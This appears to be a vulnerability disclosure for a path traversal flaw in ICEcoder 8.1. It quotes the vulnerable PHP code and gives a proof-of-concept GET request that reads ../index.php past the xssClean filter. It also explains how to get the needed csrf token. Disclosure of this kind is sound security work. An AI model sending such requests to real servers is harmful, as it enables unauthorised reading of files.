


A Path Traversal vulnerability in icecoder 8.1.

In file https://github.com/icecoder/ICEcoder/blob/master/lib/backup-versions-preview-loader.php

```php
...
$file = str_replace("|", "/", xssClean($_GET['file'], 'html'));		// Line 6(Source)
$loadedFile = toUTF8noBOM(getData("../data/backups/" . $file), true);	// Line 9(Tainted)
...
echo '<textarea name="loadedFile" id="loadedFile">' . htmlentities($loadedFile, ENT_COMPAT, $encoding) . '</textarea>';		// Line 16(Sink)
...
```

Source from `$_GET['file']` with the filtering from function xssClean. But this function does not filter `/` , `.` and `\`, which make path traversal can still be performed.

# Poc

`GET /lib/backup-versions-preview-loader.php?file=../index.php&csrf=f61f875ccdfce110c49d184ddecfbd2f`

The value of csrf can access from index.php

# Manual verification






The developer has been informed of the report via email
